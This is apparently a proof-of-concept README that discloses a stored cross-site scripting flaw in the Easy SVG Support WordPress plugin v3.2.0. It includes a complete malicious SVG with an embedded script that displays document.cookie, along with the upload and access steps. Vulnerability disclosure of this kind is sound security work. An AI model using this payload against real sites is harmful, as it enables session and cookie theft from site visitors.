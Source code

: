 # Cross Site Scripting Though SVG Files in Easy SVG Support Wordpress Plugin

This PoC describe how to exploit a Cross-Site Scripting (XSS) in - Wordpress Easy SVG Support version 3.2.0

# Description

The Easy SVG Support v3.2.0, plugin for Wordpress does not sanitize the SVG Files, so it is possible to upload a malicious SVG File to get a XSS.

![3](https://user-images.githubusercontent.com/70114276/165981178-debf89c7-9bc8-42ab-837b-51522856b98a.png)

## Attack Scenario

First we create our SVG file with this content:

![3](https://user-images.githubusercontent.com/70114276/165981536-9ee8b054-0275-4268-83c1-160039432cb2.png)

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400" />
<script type="text/javascript">
alert(document.cookie);
</script>
</svg>
```

Then we upload the file to WordPress

![4](https://user-images.githubusercontent.com/70114276/165983121-21ad9ce7-b823-4d87-b8b2-40d1978ee31e.png)

To validate the PoC, simply access the directory where the file was sent.

![5](https://user-images.githubusercontent.com/70114276/165983131-acb04469-b4d4-4eb1-985c-cea6cc4bc476.png)
